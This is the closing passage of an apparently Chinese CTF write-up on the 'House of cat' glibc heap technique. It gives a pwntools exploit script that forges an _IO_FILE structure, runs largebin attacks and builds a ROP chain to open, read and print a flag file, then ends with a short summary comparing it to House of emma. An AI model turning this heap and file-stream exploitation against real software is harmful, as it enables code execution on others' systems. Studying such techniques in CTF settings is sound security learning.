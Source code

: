 ```bash
fake_struct += p64(0) #__pad5
fake_struct += p32(0) #_mode
fake_struct += b"\x00"*20 #_unused2
fake_struct += p64(_IO_wfile_jumps + 0x10) #vatable
fake_struct += p64(0)*6 #padding
fake_struct += p64(fake_io_addr + 0x40) #rax2 -> to make [rax+0x18] = setcontext + 61
print(hex(len(fake_struct)))
payload = fake_struct + p64(0)*7 + p64(rop_addr) + p64(ret)
free(2)
add(4,0x418,payload) 
free(4) #p2
# largebin attack
edit(0,p64(libc_base+0x21a0d0)*2 + p64(heap_base+0x290) + p64(stderr-0x20))

add(5,0x440,"55555")
dbg()
add(6,0x430,"./flag")
add(7,0x430,"77777")

rop = p64(pop_rdi) + p64(0) + p64(close) #close(0)
rop += p64(pop_rdi) + p64(flag_addr) + p64(pop_rax) + p64(2) + p64(syscall_ret) #open(flag)
rop += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(flag_addr+0x10) + p64(pop_rdx_r12) + p64(0x100) + p64(0) + p64(read) #read(0,flag_addr+0x10,0x100)
rop += p64(pop_rdi) + p64(flag_addr+0x10) + p64(puts) #puts(flag_addr+0x10)

add(8,0x430,rop)
free(5)
add(9,0x450,"9999")
free(7)
edit(5,p64(libc_base + 0x21a0e0)*2 + p64(heap_base + 0x1370) + p64(heap_base + 0x28e0-0x20 + 3))

cat(1)
dbg()
p.sendlineafter(":",str(10))
gdb.attach(p,'b* (_IO_wfile_seekoff)')
p.sendlineafter(":",str(0x450))

p.interactive()
```

# 总结

跟着 House of cat 学习下来，能明显感觉到比 House of emma 的复杂程度低了不少，原理也简单好懂，调用链明白清晰，是一个不可多得的优秀 IO 攻击方式。
